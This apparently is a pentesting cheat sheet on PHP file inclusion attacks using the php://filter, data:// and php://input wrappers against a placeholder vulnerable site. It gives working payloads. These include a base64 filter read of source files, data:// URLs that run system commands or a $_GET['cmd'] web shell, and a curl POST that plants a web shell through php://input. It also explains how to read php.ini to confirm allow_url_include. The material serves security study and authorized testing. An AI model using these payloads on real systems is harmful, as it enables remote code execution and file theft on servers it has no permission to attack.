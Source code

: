 The `resource` parameter allows us to specify a resource to target (e.g. file to include) with the resource name passed as the param value.

Together, this looks like `php://filter/read=convert.base64-encode/resource=<resource>` e.g.

```
http://vulnerable-website.com/index.php?page=php://filter/convert.base64-encode/resource=admin.php
```

Then base64 decode the included file to read the contents.

ALSO TRY THIS WITHOUT .php IF YOU SUSPECT THE INPUT HANDLING AUTOMATICALLY APPENDS THE EXTENSION!!!

### Data Wrapper

- Allows for code execution
- Requires `allow_url_include` setting to be enabled in PHP configuration.
- Can be sent in plaintext or base64:

We can check if `allow_url_include` is enabled by using the `php://filter` wrapper to read the PHP engine's configuration, which on Linux is stored at either:

- `/etc/php/X.Y/apache2/php.ini` for Apache; or
- `/etc/php/X.Y/fpm/php.ini` for NGINX

where `X.Y` is the PHP version number. Try with the latest and backtrack through versions if it doesn't work. Also, make sure you're using `read=convert.base64-encode` in the wrapper to avoid breaking the attack and having the server parse the raw `.ini` file rather than just reading and returning its contents.

There should hopefully be a line like `allow_url_include = On` which means we can use the data wrapper, input wrapper, or even exploit RFI if there is a vector for it.

```
# Plaintext
http://vulnerable-website.com/index.php?page=data://text/plain,<?php%20echo%20system('ls');%20?>

# Base64
http://vulnerable-website.com/index.php?page=data://text/plain;base64,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==&cmd=ls
```

### Input Wrapper

Similar to the data wrapper in that we can achieve code execution, the primary difference is that our attack payload must be sent as a POST request, so the vulnerable file inclusion parameter must accept POST requests.

`allow_url_include` must also be set to `On` as explained in the data wrapper section above.

Example with cURL (modify for whatever the attack needs to be):

```
curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://vulnerable-website.com/index.php?page=php://input&cmd=id"
```

**Note:** in the example above, we're assuming the vulnerable input is allowing POST data *in addition to* GET data to be referenced to read the `"cmd"` argument. If this doesn't work, just directly embed the command in the POST attack payload rather than attempting a dynamic web shell e.g. going from `<?php system($_GET["cmd"]); ?>` to `<?php system('id') ?>`.
